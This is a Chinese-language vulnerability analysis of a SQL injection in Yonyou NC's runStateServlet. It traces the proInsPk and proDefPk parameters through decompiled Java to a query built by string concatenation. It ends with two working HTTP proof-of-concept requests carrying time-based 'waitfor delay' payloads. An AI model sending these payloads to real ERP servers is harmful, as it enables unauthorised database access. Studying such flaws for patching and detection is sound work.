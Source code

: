 runStateServlet sql注入漏洞
-----------------------

代码路径：C:\\yonyou\\home\\modules\\webimp\\lib\\pubwebimp\_cpwfmLevel-1\\nc\\uap\\wfm\\action\\RunStateServlet.java

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-b3d50ed6fdf145a4cda0d97327f0cc586462869d.png)

```java
/*
 * Decompiled with CFR 0.152.
 * 
 * Could not load the following classes:
 *  nc.uap.lfw.core.exception.LfwRuntimeException
 *  nc.uap.lfw.servletplus.annotation.Action
 *  nc.uap.lfw.servletplus.annotation.Servlet
 *  nc.uap.wfm.logger.WfmLogger
 *  nc.vo.jcom.xml.XMLUtil
 *  org.apache.commons.lang.StringUtils
 */
package nc.uap.wfm.action;

import java.io.IOException;
import java.io.PrintWriter;
import java.io.Writer;
import nc.uap.lfw.core.exception.LfwRuntimeException;
import nc.uap.lfw.servletplus.annotation.Action;
import nc.uap.lfw.servletplus.annotation.Servlet;
import nc.uap.wfm.action.WfBaseServlet;
import nc.uap.wfm.logger.WfmLogger;
import nc.uap.wfm.render.FlowImgRender;
import nc.vo.jcom.xml.XMLUtil;
import org.apache.commons.lang.StringUtils;
import org.w3c.dom.Node;

@Servlet(path="/servlet/runStateServlet")
public class RunStateServlet
extends WfBaseServlet {
    private static final long serialVersionUID = -8356983652899198379L;

    @Action(method="POST")
    public void doPost() {
        this.response.setCharacterEncoding("utf-8");
        this.response.setContentType("text/html");
        PrintWriter out = null;
        try {
            out = this.response.getWriter();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        String proInsPk = this.request.getParameter("proInsPk");
        String prodefPk = this.request.getParameter("proDefPk");
        if (StringUtils.isNotBlank((String)proInsPk) && !"null".equals(proInsPk) || StringUtils.isNotBlank((String)prodefPk) && !"null".equals(prodefPk)) {
            XMLUtil.printDOMTree((Writer)out, (Node)FlowImgRender.getRenderProcessXml(proInsPk, prodefPk), (int)0, (String)"UTF-8");
            boolean i = false;
        } else {
            out.println();
        }
    }
}

```

从代码中看，proInsPk和proDefPk参数，都进入了getRenderProcessXml方法

```java
 //展示一部代码
    public static Document getRenderProcessXml(String rootProInsPk, String prodefPk) {
        Map<String, Map<String, String>> taskTipMap = getTaskTipMap(rootProInsPk);
        List<Route> routeList = new ArrayList();
        List<Node> nodeList = new ArrayList();
        setNodeListAndRoutList(nodeList, routeList, taskTipMap, rootProInsPk);
        Element xmlNode = null;
        Route route = null;
        Node node = null;
        Document doc = XMLUtil.getNewDocument();
        Element root = doc.createElement("Elements");
        doc.appendChild(root);
        int size = nodeList.size();
        Set<String> idSets = new HashSet();

        for(int i = 0; i < size; ++i) {
            xmlNode = doc.createElement("Node");
            node = (Node)nodeList.get(i);
            idSets.add(node.getId());
            xmlNode.setAttribute("id", node.getId());
            xmlNode.setAttribute("pid", node.getPid());
            xmlNode.setAttribute("isPending", String.valueOf(node.isNotPending()));
            xmlNode.setAttribute("isExe", String.valueOf(node.isNotExe()));
            xmlNode.setAttribute("isPas", String.valueOf(node.isNotPas()));
            xmlNode.setAttribute("isStop", String.valueOf(node.isNotStop()));
            xmlNode.setAttribute("isCntNode", String.valueOf(node.isNotCntNode()));
            xmlNode.setAttribute("isAddSign", String.valueOf(node.isNotAddSign()));
            xmlNode.setAttribute("isBack", String.valueOf(node.isNotReject()));
            xmlNode.setAttribute("tooltip", node.getTooltip());
            root.appendChild(xmlNode);
        }

        ProIns proIns = null;
        ProDef prodef = null;
        if (StringUtils.isNotBlank(rootProInsPk) && !"null".equals(rootProInsPk)) {
            proIns = (ProIns)WfmProinsUtil.getProInsByProInsPk(rootProInsPk);
            prodef = proIns.getProDef();
        } else if (StringUtils.isNotBlank(prodefPk) && !"null".equals(prodefPk)) {
            prodef = (ProDef)WfmProDefUtil.getProDefByProDefPk(prodefPk);
        }

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-1b2405bd793255714c127a0bce0339534e971b02.png)

proInsPk和proDefPk参数 接着传入了

proIns = (ProIns)WfmProinsUtil.getProInsByProInsPk(rootProInsPk);

prodef = (ProDef)WfmProDefUtil.getProDefByProDefPk(prodefPk)

#### getProInsByProInsPk proInsPk参数注入

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-75b8a09f3eea88e8d198c8a710141131d03365a7.png)

`getProInsByProInsPk` 该方法为`WfmProinsUtil`类中实现的

并将参数传入 `WfmEngineUIAdapterFactory.getInstance().getProInsByProinsPk(proInsPk)` 方法中

跟踪`getProInsByProinsPk`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-497e945c068c396aa6ca50e06f979f8deed7be07.png)

发现定义`getProInsByProinsPk`方法的接口类`IWfmEngineUIAdapter`

搜索`getProInsByProinsPk`方法的实现类

在`WfmCpEngineUIAdapter`类中引用了`IWfmEngineUIAdapter`接口类

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-45eb6d3e18d343eacd675cde9ec60d0f6abd7c1d.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-8eaf6e7135469dee94b3e93eb04ac153bd646c0e.png)

接着跟踪`getProInsByPk`

`proIns = WfmServiceFacility.getProInsQry().getProInsByPk(proInsPk);`

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-5b03c996aef4dbde77e6bb849555c7926eb61798.png)

在WfmProInsQry类中实现了getProInsByPk 方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-d1a84e8d0d5c92d92c4b3d3558b0362a88be84af.png)

WfmProInsVO proInsVO = this.getProInsVOByPk(proInsPk);

接着跟进getProInsVOByPk 方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-3aba9e3bbfa1067d3402c83decd33be6c7eb2494.png)

将参数传入数据库中查询，并且proInsPk参数可控，造成sql注入漏洞

#### getProDefByProDefPk proDefPk参数注入

跟进 方法 getProDefByProDefPk

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-3b73119572e8605cbd0295b5e52e5f15b75df0c6.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-3d8f530810cd078355c7b94f730c59d6c179befd.png)

发现定义`getProDefByProDefPk`方法的接口类`IWfmEngineUIAdapter`

搜索`getProDefByProDefPk`方法的实现类

在`WfmCpEngineUIAdapter`类中引用了`IWfmEngineUIAdapter`接口类

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-71b7b2632c97e434b03fd8dac5fccb4bdaf6fd57.png)

接着跟进

ProDefsContainer.getByProDefPkAndId((String)prodefPk)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-8c47641f65ad694ce6e1700fbc505271008931a9.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0ae53a853899e3a01fa1179c76dfc8302331a242.png)

接着跟 getProDefVOByProDefPk 方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-83d3a365bafef212165798b4029e4d84b84c6a4b.png)

在WfmProDefQry类中实现了getProDefVOByProDefPk 方法

```java

public WfmProdefVO getProDefVOByProDefPk(String proDefPk) throws WfmServiceException {
        PtBaseDAO dao = new PtBaseDAO();
        SuperVO[] superVos = null;
        try {
            superVos = dao.queryByCondition(WfmProdefVO.class, "pk_prodef='" + proDefPk + "'");
        }
        catch (DAOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        if (superVos == null || superVos.length == 0) {
            return null;
        }
        return (WfmProdefVO)superVos[0];
}

```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-d276230549cad0744a9c0e1d4b71a66421099f6e.png)

在代码中看到直接拼接了字符串proDefPk 造成sql注入漏洞

### proInsPk参数

```php
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

### proDefPk参数

```php
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proDefPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-f14989265ef9fdc18674ae3ddc30773ea742c69e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-c6ff58293c5757ef21d25aeff1c28c65dfddbf87.png)

文章首发个人公众号